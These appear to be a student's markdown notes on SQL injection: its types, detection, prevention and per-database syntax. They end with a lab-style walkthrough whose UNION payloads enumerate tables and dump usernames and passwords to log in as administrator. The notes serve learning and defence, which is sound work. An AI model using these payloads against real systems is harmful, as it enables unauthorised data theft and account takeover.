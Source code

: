 ## Types of sql injection
1. IN-Band(classic):use the same channel to attack and gain information.
    1. Error: force the database to generate an error.
    2. Union: to marge two sql query to give one result.
2. Inferential(Blind):There is no transfer of data.
    1. Boolean: use Boolean repsonce.
    2. Time: 
3. Out-of-Band: use different channel to attack and gain info. maybe use http request to insert the sql injection.
## Finding sqli Vulnerabilities
1. Black box:
    - Map the application.
    - Fuzz the application.
2. White box:
    - Enable web server logging
    - Enable database logging
    - Map the application
## Exploit of sql  injection
## Union-Based sqli
- there are two rules
1. the number and the order of the columns must be the same in all queries.
2. the data type must be compatible.
## Exploiting
-  determine the columns using "order by ":
- Determining the number of columns required in an sql injection Union attack using "NULL values".
## How to prevent sqli vulnerabilities
1. primary defenses:
    - use of prepared statements(parametrized queries)
    - use of stored procedures (partial)
    - whitelist input validation (partial)
    - escaping All user supplied input (partial)
2. Additional Defenses:
    - Also : enforcing least privilege
    - Also : performing whitelist input validation as a secondary defense.
- SQL injection (SQLi) is a web security vulnerability that allows an attacker to interfere with the queries that an application makes to its database. This can allow an attacker to view data that they are not normally able to retrieve
## sql command
- to know the database version "select all from v$version".
- to list of table "Select * from information_schema.tables"
- for comment: "--" 
### Demo of sql injection
1. http request:https://insecure-website.com/products?category=Gifts'+OR+1=1--
2. change to sql: SELECT * FROM products WHERE category = 'Gifts' OR 1=1--' AND released = 1
## Detect sql injection

You can detect SQL injection manually using a systematic set of tests against every entry point in the application. To do this, you would typically submit:

- The single quote character `'` and look for errors or other anomalies.
- Some SQL-specific syntax that evaluates to the base (original) value of the entry point, and to a different value, and look for systematic differences in the application responses.
- Boolean conditions such as `OR 1=1` and `OR 1=2`, and look for differences in the application's responses.
- Payloads designed to trigger time delays when executed within a SQL query, and look for differences in the time taken to respond.
- OAST payloads designed to trigger an out-of-band network interaction when executed within a SQL query, and monitor any resulting interactions.
## sql injection example
1. Retrieving hidden data
2. subverting application logic
3. union attacks 
4. blind sql injection :Many instances of SQL injection are blind vulnerabilities. This means that the application does not return the results of the SQL query or the details of any database errors within its responses.
5. First-order sql injection: when the http request is directly change in to sql query.
6. Second-order injection: it is when http request is store for the future use.
- After you identify a SQL injection vulnerability, it's often useful to obtain information about the database.

# ## String concatenation

You can concatenate together multiple strings to make a single string.

|   |   |
|---|---|
|Oracle|`'foo'\|'bar'`|
|Microsoft|`'foo'+'bar'`|
|PostgreSQL|`'foo'\|'bar'`|
|MySQL|`'foo' 'bar'` [Note the space between the two strings]  <br>`CONCAT('foo','bar')`|

## ## Database version

You can query the database to determine its type and version. This information is useful when formulating more complicated attacks.

|   |   |
|---|---|
|Oracle|`SELECT banner FROM v$version   SELECT version FROM v$instance   `|
|Microsoft|`SELECT @@version`|
|PostgreSQL|`SELECT version()`|
|MySQL|`SELECT @@version`|

# example

1. Use Burp Suite to intercept and modify the request that sets the product category filter.
2. Determine the [number of columns that are being returned by the query](https://portswigger.net/web-security/sql-injection/union-attacks/lab-determine-number-of-columns) and [which columns contain text data](https://portswigger.net/web-security/sql-injection/union-attacks/lab-find-column-containing-text). Verify that the query is returning two columns, both of which contain text, using a payload like the following in the `category` parameter:
    
    `'+UNION+SELECT+'abc','def'--`
3. Use the following payload to retrieve the list of tables in the database:
    
    `'+UNION+SELECT+table_name,+NULL+FROM+information_schema.tables--`
4. Find the name of the table containing user credentials.
5. Use the following payload (replacing the table name) to retrieve the details of the columns in the table:
    
    `'+UNION+SELECT+column_name,+NULL+FROM+information_schema.columns+WHERE+table_name='users_abcdef'--`
6. Find the names of the columns containing usernames and passwords.
7. Use the following payload (replacing the table and column names) to retrieve the usernames and passwords for all users:
    
    `'+UNION+SELECT+username_abcdef,+password_abcdef+FROM+users_abcdef--`
8. Find the password for the `administrator` user, and use it to log in.